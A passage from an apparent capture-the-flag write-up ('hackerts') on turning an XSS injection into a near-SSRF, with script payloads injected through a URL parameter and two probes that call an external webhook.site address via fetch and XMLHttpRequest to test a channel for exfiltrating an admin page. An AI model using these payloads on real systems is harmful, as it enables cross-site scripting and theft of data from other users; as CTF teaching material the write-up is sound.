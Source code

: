 `/exploit?text=<script>document.write("noice nearly SSRF!");</script>&color=%2324d600`

![](images/hackerts_nearlyssrf.png)

*noice*

Now the next thing I needed to figure out was how to exfiltrate the contents of the admin page. Ideally, I would use `fetch` but for the worst case scenarios I use `XMLHttpRequest` if `fetch` unable. To test which method works, I tried both of them to send a request to my webhook using the following payloads for `fetch` and `XMLHttpRequest` respectively.

**Testing `fetch`**
```html
<script>fetch("https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?type=fetch");</script>
```

**Testing `XMLHttpRequest`**
```html
<script>x=new XMLHttpRequest();x.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?type=ohgoditsxmlhttprequest');x.send()</script>
```

Unfortunately, only `XMLHttpRequest` worked...

![](images/hackerts_xmlhttprequest.png)
